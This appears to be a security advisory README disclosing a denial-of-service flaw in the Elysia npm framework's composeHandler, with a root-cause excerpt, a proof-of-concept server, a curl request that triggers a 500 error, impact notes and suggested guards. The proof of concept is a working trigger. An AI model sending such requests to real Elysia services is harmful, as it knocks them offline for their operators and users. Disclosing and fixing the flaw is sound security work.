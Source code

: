 # vuln-elysia-1.3.21-dos

## Summary

Elysia (npm) is vulnerable to **Denial of Service (DoS)** due to unsafe dynamic code generation in the request handler composition.  
Through version **1.3.21 (latest tested)**, a crafted schema property or malformed input can trigger a crash inside `composeHandler` in `src/compose.ts`.  
This causes the server to throw an unhandled exception and return **HTTP 500 Internal Server Error** for valid requests, effectively allowing remote attackers to perform a DoS.

- **Vulnerability Class:** Improper Input Validation → Crash/DoS (CWE-20, CWE-248)  
- **Severity:** Medium/High (CVSS ~7.5)  
- **Exploitability:** Any attacker able to send crafted HTTP requests to an affected server can trigger this vulnerability.  

---

## Details

- **Package:** `elysia` (npm)  
- **Repository:** [github.com/elysiajs/elysia](https://github.com/elysiajs/elysia)  
- **Affected File:** [src/compose.ts](https://github.com/elysiajs/elysia/blob/main/src/compose.ts)  
- **Affected Function(s):** `composeHandler`, `compile`  
- **Affected Versions:** ≤ 1.3.21 (latest tested)  
- **Root Cause:** Dynamic handler generation assumes `schema.$defs[schema.$ref]` exists. Crafted input can bypass assumptions and cause a `TypeError`.

### Relevant code excerpt (compose.ts)
```ts
const properties =
  schema.properties ?? schema.$defs[schema.$ref].properties
```

If `schema.$defs` or `schema.$ref` is undefined due to attacker-controlled schema, the code throws:  
```
TypeError: undefined is not an object (evaluating 'schema.$defs[schema.$ref]')
```

---

## Proof of Concept (PoC)

### Vulnerable Server (poc-elysia-dos.mjs)
```js
import { Elysia, t } from 'elysia'

const app = new Elysia()
  .get('/hello', () => 'Hello World')
  .get('/dos', () => 'SAFE', {
    query: t.Record(t.String(), t.String())
  })
  .listen(3000)

console.log("Server listening on http://localhost:3000")
```

### Run the server
```bash
bun poc-elysia-dos.mjs
```

### Test normal route
```bash
curl http://localhost:3000/hello
# -> Hello World
```

### Trigger DoS
```bash
curl -i http://localhost:3000/dos?x=1
```

**Expected result:**  
The server crashes internally and responds with **500 Internal Server Error**.  
Clients see Bun’s error overlay HTML with stack trace:

```
TypeError: undefined is not an object (evaluating 'schema.$defs[schema.$ref]')
    at composeHandler (.../elysia/src/compose.ts:657:33)
    ...
```

### Demonstration
![DoS Attack Demonstration](poc-elysia-dos.gif)

---

## Attack Vector

- Any attacker who can send crafted requests to endpoints that use `t.Record` or similar schemas can reliably trigger a crash.  
- The server continues running, but valid requests fail until restart → effectively **Denial of Service**.

---

## Impact

- **Availability loss** for services using Elysia.  
- Remote attacker can crash endpoints at will.  
- In production, repeated exploitation can render the service unusable.  

**Vulnerability type:** Denial of Service (DoS) via malformed schema parsing  
**Affected users:** All applications using Elysia with schemas like `t.Record(...)` or other constructs that reach `schema.$defs`.

---

## Suggested Fix

- Add guards before dereferencing `schema.$defs[schema.$ref]`.  
- Reject malformed schema definitions early.  
- Add test cases for schema edge cases (e.g., empty `$ref`, missing `$defs`).

---

## Disclosure
- **Status:** Under responsible disclosure  
- **Disclosure Date:** 04 September 2025  
- **Reporter:** Manopakorn Kooharueangrong (Whyshealwaysbrokeme)
